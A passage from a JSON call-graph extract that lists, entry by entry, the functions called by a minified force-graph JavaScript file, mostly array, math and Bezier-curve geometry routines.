"relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visitAfter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "approximately"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "approximately"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "arcfn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lli8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lli4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "intersects"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "makeline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "makeline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "findbbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "shapeintersections"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "align"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "approximately"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curvature"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curvature"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "align"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bboxoverlap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lli8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pointsToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addCurve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curve"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "expandbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "align"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "quadraticFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getABC"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cubicFromPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getABC"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getUtils"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getUtils"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getUtils"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "valueOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pointsToString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toSVG"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setRatios"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "verify"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "coordDigest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "coordDigest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "derive"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "computedirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "computedirection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "angle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getABC"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "projectionratio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "abcratio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getABC"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getABC"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getLUT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getLUT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "project"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getLUT"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "closest"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dist"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "point"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "computeWithRatios"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "raise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "derivative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dderivative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "align"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curvature"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "curvature"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "inflections"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "inflections"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "__normal3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "__normal2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "__normal2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "derivative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "__normal3"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "derivative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "derivative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hull"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lerp"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hull"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "extrema"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "droots"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "extrema"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getminmax"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "overlaps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bboxoverlap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "simple"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "angle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "angle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "extrema"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "simple"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "raise"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "scale"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "offset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lli4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "copy"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "derivative"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "lli4"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "outline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "normal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "makeline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "makeline"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "length"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", 